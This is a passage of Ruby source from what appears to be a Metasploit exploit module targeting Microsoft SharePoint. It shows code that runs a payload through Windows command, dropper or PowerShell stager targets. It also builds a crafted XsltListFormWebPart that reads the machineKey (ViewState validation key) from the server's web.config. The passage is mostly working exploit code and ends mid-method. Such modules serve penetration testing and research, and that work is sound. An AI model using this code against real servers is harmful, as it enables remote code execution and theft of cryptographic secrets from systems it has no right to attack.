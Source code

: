         if (@validation_key = datastore['VALIDATION_KEY'])
          print_status("Using ViewState validation key #{@validation_key}")
        else
          leak_web_config
        end

        print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

        case target['Type']
        when :win_cmd
          execute_command(payload.encoded)
        when :win_dropper
          execute_cmdstager
        when :psh_stager
          execute_command(cmd_psh_payload(
            payload.encoded,
            payload.arch.first,
            remove_comspec: true
          ))
        end
      end

      def leak_web_config
        print_status('Leaking the ViewState validation key...')

        web_id = sharepoint_get_site_web_id('cookie' => cookie)
        fail_with(Failure::UnexpectedReply, 'Failed to retrieve the site web ID') unless web_id

        webpart = <<~WEBPART
          <%@ Register TagPrefix="WebPartPages" Namespace="Microsoft.SharePoint.WebPartPage" Assembly="Microsoft.SharePoint, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %>
          <%@ Register TagPrefix="att" Namespace="System.Web.UI.WebControls " Assembly="System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" %>
        WEBPART
        webpart << Nokogiri::XML(<<-WEBPART, nil, nil, Nokogiri::XML::ParseOptions::NOBLANKS).root.to_xml(indent: 0, save_with: 0)
          <WebPartPages:XsltListFormWebPart id="id01" runat="server" ListDisplayName="#{datastore['SP_LIST'].encode(xml: :text)}" WebId="{#{web_id.encode(xml: :text)}}">
            <DataSources>
              <att:xmldatasource runat="server" id="XDS1"
                XPath="/configuration/system.web/machineKey"
                datafile="c:/inetpub/wwwroot/wss/VirtualDirectories/80/web.config" />
            </DataSources>
            <xsl>
                <xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
                    <xsl:output method="xml" indent="yes" />
                    <xsl:template match="/">
                        <xsl:copy-of select="." />
                    </xsl:template>
                </xsl:stylesheet>
            </xsl>
          </WebPartPages:XsltListFormWebPart>
        WEBPART
